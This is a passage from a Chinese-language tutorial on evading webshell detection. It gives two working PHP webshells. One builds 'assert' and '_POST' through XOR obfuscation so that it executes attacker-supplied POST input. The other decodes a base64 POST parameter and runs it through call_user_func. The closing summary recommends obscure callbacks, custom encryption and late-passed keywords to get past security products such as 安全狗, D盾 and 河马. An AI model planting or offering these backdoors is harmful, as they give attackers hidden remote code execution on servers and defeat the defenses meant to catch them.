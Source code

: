 ## 2.8. 去字符特征
### 2.8.1. 利用异或、编码等方式
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
### 2.8.2. 利用正则匹配字符
### 2.8.3. 利用 POST 包获取关键参数执行
```php
<?php
$decrpt = $_POST['x'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
call_user_func($arrs[0],$arrs[1]);
?>
```
# 3. 总结
* 对于安全狗杀形，D盾杀参的思路来绕过。生僻的回调函数，特殊的加密方式，以及关键词的后传入都是不错的选择。
* 对于关键词的后传入对免杀安全狗、D盾、河马等等都是不错的，后期对于菜刀的轮子，也要走向高度的自定义化
* 用户可以对传出的post数据进行自定义脚本加密，再由webshell进行解密获取参数，那么以现在的软WAF查杀能力几乎为0，安全软件也需要与时俱进了。